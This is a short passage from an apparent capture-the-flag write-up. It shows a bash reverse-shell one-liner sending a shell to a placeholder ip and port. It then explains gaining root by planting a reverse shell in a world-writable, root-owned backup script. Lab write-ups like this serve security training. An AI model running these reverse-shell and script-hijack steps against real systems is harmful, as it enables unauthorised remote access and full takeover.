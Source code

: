 ```
bash -c "bash -i >& /dev/tcp/ip/port 0>&1"
```
Got the shell back as User Snort

![snort](./ctf/ctf-1/5.png)

### Privilege Escalation To Root

Looking in to the /var/backups dir there is a etc_Backup.sh script which is owned by root and has  dangerous permissions

![root](./ctf/ctf-1/6.png)

Since it is writable by everyone we can write a bash rev shell in it

![root1](./ctf/ctf-1/7.png)

After few seconds we got a shell as Root

![root2](./ctf/ctf-1/8.png)

